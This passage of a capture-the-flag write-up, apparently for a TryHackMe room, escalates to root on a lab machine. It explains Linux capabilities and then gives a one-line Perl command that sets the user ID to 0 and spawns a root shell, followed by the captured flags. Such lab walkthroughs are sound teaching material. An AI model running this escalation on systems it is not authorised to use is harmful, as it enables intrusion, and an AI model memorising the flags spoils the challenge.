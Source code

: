 We got no sudo permissions, weird, maybe we can check more stuff with linpeas:

![Pasted image 20250410175343.png](../../IMAGES/Pasted%20image%2020250410175343.png)


We got capabilities set, **Capabilities**Â in Linux are a way to grantÂ _specific privileges_Â to a process or binaryÂ **without giving it full root access**. They break down the monolithic "root vs. non-root" model intoÂ **granular permissions**, allowing fine-grained control over what a program can do.

Knowing this, we can exploit it in the following way to get root:

```
/usr/bin/perl -e 'use POSIX qw(setuid); setuid(0); exec "/bin/bash";'
```

![Pasted image 20250410175608.png](../../IMAGES/Pasted%20image%2020250410175608.png)

There we go, we got root access, we can now read both flags, 

```
root@wonderland:~# cat /root/user.txt
thm{"Curiouser and curiouser!"}
```

```
root@wonderland:~# cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what youâ€™re at!}
```

![Pasted image 20250410175738.png](../../IMAGES/Pasted%20image%2020250410175738.png)

